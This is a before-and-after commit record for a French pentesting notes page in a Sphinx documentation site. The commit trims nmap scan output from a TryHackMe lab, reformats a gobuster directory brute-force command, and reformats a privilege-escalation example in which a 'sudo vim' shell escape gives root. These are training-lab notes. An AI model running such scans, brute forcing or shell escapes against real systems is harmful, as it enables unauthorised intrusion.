

Before and after one commit to Iole-Bri/misp_docs_2, a Sphinx documentation site: the page built from docs/source/src/pentest.md, in a window 1280 px wide and 1400 px high, scrolled down 414 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
modif pentest.md

````diff
--- a/docs/source/src/pentest.md
+++ b/docs/source/src/pentest.md
@@ -17,83 +17,21 @@ Scan simple et rapide :
 Exemples :
 * N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)
 
-    $ sudo nmap -sS -Pn -sV 10.10.188.70
-    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:24 CEST
-    Nmap scan report for 10.10.188.70
-    Host is up (0.13s latency).
-    Not shown: 988 closed ports
-    PORT      STATE SERVICE       VERSION
-    135/tcp   open  msrpc         Microsoft Windows RPC
-    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
-    445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
-    3389/tcp  open  ms-wbt-server Microsoft Terminal Service
-    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
-    8000/tcp  open  http          Icecast streaming media server
-    49152/tcp open  msrpc         Microsoft Windows RPC
-    49153/tcp open  msrpc         Microsoft Windows RPC
-    49154/tcp open  msrpc         Microsoft Windows RPC
-    49158/tcp open  msrpc         Microsoft Windows RPC
-    49159/tcp open  msrpc         Microsoft Windows RPC
-    49161/tcp open  msrpc         Microsoft Windows RPC
-    Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
-
-    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
-    Nmap done: 1 IP address (1 host up) scanned in 96.35 seconds
+    ```$ sudo nmap -sS -Pn -sV 10.10.188.70```
 
 * N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)
 
-    ``$ sudo nmap -sS -sC 10.10.188.70``
-    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:29 CEST
-    Nmap scan report for 10.10.188.70
-    Host is up (0.16s latency).
-    Not shown: 988 closed ports
-    PORT      STATE SERVICE
-    135/tcp   open  msrpc
-    139/tcp   open  netbios-ssn
-    445/tcp   open  microsoft-ds
-    3389/tcp  open  ms-wbt-server
-    5357/tcp  open  wsdapi
-    8000/tcp  open  http-alt
-    |_http-title: Site doesn't have a title (text/html).
-    49152/tcp open  unknown
-    49153/tcp open  unknown
-    49154/tcp open  unknown
-    49158/tcp open  unknown
-    49159/tcp open  unknown
-    49161/tcp open  unknown
-
-    Host script results:
-    |_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
-    |_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e6:92:75:0f:81 (unknown)
-    | smb-os-discovery:
-    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
-    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
-    |   Computer name: Dark-PC
-    |   NetBIOS computer name: DARK-PC\x00
-    |   Workgroup: WORKGROUP\x00
-    |_  System time: 2021-09-24T10:29:37-05:00
-    | smb-security-mode:
-    |   account_used: guest
-    |   authentication_level: user
-    |   challenge_response: supported
-    |_  message_signing: disabled (dangerous, but default)
-    | smb2-security-mode:
-    |   2.02:
-    |_    Message signing enabled but not required
-    | smb2-time:
-    |   date: 2021-09-24T15:29:36
-    |_  start_date: 2021-09-24T15:18:11
-
-    Nmap done: 1 IP address (1 host up) scanned in 138.91 seconds
+    ```$ sudo nmap -sS -sC 10.10.188.70```
 
 ### Gobuster
 
-[gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)
+Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)
 
-```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```
-Exemple :
+gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```
+
+Exemples :
+
 ```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```
-
 
 ## Méthodes
 ### Escalade de privilège
@@ -101,13 +39,13 @@ Exemple :
 Exemple :
 * N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)
 
-    <br/>$ sudo -l
-    <br/>User mitch may run the following commands on Machine:
-    <br/>(root) NOPASSWD: /usr/bin/vim
+    <br/>```$ sudo -l```
+    <br/>ans : User mitch may run the following commands on Machine:
+    <br/>ans : (root) NOPASSWD: /usr/bin/vim
 
-    <br/>$ sudo vim -c ':!/bin/sh'
-    <br/># ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
-    <br/>/bin/sh: 1: ot found
-    <br/>/bin/sh: 1: 2R: not found
-    <br/># whoami
-    <br/>root
+    <br/>```$ sudo vim -c ':!/bin/sh'```
+    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
+    <br/>ans : /bin/sh: 1: ot found
+    <br/>ans : /bin/sh: 1: 2R: not found
+    <br/>```# whoami```
+    <br/>ans : root
````
